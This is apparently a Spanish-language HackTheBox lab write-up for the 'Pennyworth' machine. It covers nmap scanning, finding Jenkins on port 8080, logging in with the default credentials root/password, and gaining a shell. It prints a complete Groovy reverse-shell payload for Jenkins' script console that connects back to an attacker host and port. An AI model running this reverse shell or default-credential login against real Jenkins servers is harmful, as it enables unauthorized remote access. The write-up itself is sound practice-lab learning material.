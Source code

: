 # Pennyworth

Plataforma: HackTheBox
OS: Linux
Level: Very Easy
Status: Done
Complete: Yes
Created time: 9 de enero de 2025 21:15
IP: 10.129.164.29

## Recopilación de información

<aside>
💡 Trier2

</aside>

### **Escaneo de puertos**

Comenzamos con un escaneo para identificar que puertos están abiertos.

---

```bash
❯ sudo nmap -p- --open --min-rate 5000 -sS -n -Pn -vvv 10.129.164.29 -oG allports

Ports: 8080/open/tcp//http-proxy///
```

### **Enumeración de servicios**

Una vez listado los puertos accesibles, procederemos a realizar la enumeración de servicios para su posterior identificación de vulnerabilidades.

---

```bash
 ❯ sudo nmap --script=http-enum -sV 10.129.164.29 -oN webscan

PORT     STATE SERVICE VERSION
8080/tcp open  http    Jetty 9.4.39.v20210325
| http-enum: 
|_  /robots.txt: Robots file
|_http-server-header: Jetty(9.4.39.v20210325)

```

- **Identificación de vulnerabilidades**
    - 8080/open/tcp//http-proxy : Encontramos un Jenkins

- **Enumeración puerto 8080**
    
    ![image.png](<imagenes/image 85.png>)
    
    Enumeramos la version, con :
    
    ```sql
    http://10.129.164.29:8080/error
    ```
    
    ![image.png](<imagenes/image 86.png>)
    
    Probamos a acceder con credenciales por defecto y entramos con :
    
    root/password
    
    Buscamos una rever shell y la ejecutamos en el editor de scripts Groovy:
    
    ![image.png](<imagenes/image 87.png>)
    
    Encontramos la rever en :
    
    https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
    
    ```sql
    String host="10.0.0.1";
    int port=4242;
    String cmd="cmd.exe";
    Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
    
    # Cambiamos el cmd por /bin/bash
    
    String cmd="/bin/bash";
    ```
    
    Nos ponemos en escucha y obtenemos la consola
    
    Buscamos la flag:
    
    ![image.png](<imagenes/image 88.png>)
    

## Conclusión

<aside>
💡 Maquina etiquetada como muy facil, pero que me ha costado mucho y he tenido que mirar writeup por desconocimiento de Jerkins

</aside>